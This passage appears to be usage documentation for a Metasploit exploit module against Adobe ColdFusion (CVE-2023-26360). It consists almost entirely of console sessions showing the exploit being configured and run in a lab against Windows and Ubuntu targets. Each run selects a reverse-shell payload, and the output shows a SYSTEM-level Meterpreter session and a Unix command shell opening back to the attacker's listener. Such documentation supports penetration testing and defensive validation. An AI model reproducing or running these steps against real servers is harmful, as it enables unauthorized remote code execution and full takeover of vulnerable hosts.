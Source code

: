 ```
```

### Windows Dropper (Adobe ColdFusion 2021 Update 5 on Windows Server 2022)
```
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > set target 2
target => 2
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > set PAYLOAD windows/x64/meterpreter_reverse_tcp
PAYLOAD => windows/x64/meterpreter_reverse_tcp
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > check
[*] 172.23.13.12:8500 - The service is running, but could not be validated. ColdFusion detected but version number is unknown.
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > exploit

[*] Started reverse TCP handler on 172.23.9.70:4444 
[*] Command Stager progress -   0.73% done (2047/279726 bytes)
[*] Command Stager progress -   1.46% done (4094/279726 bytes)

...snip...

[*] Command Stager progress -  99.52% done (278392/279726 bytes)
[*] Command Stager progress - 100.00% done (279726/279726 bytes)
[*] Meterpreter session 1 opened (172.23.9.70:4444 -> 172.23.13.12:57554) at 2023-04-06 12:23:48 +0100

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 172.23.13.12 - Meterpreter session 1 closed.  Reason: Died
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > 
```

### Linux Command (Adobe ColdFusion 2021 Update 5 on Ubuntu 22.04)
```
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > set target 3
target => 3
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > set PAYLOAD cmd/unix/reverse_perl
PAYLOAD => cmd/unix/reverse_perl
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > set RHOST 172.23.0.98
RHOST => 172.23.0.98
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > check
[*] 172.23.0.98:8500 - The service is running, but could not be validated. ColdFusion detected but version number is unknown.
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > exploit

[*] Started reverse TCP handler on 172.23.9.70:4444 
[*] Command shell session 2 opened (172.23.9.70:4444 -> 172.23.0.98:47598) at 2023-04-06 12:27:55 +0100

id
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
pwd
/opt/ColdFusion2021/cfusion/bin
```

